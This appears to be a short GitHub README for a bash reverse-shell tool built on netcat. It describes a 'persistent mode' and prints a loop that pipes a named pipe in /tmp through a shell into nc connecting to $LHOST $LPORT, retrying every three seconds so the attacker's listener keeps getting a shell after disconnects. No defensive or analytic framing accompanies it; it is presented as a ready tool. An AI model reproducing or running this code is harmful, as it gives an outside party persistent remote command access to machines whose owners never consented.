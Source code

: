 # bash-reverse-shell
reverse shell bash using nc

# persistent mode
this script has persistent mode, when user done with the shell and exit.. it will still trying to connect to the target listener port

```
        while true # just loop, nothing special
        do
                cat /tmp/zeusPipe|$0 shell 2>&1|nc $LHOST $LPORT >/tmp/zeusPipe # trying to connect to the listener
                sleep 3 # sleep 3 second when listener not open the port or after user exit the shell
        done
```

# no idle mode :(
there's no idle mode currently 

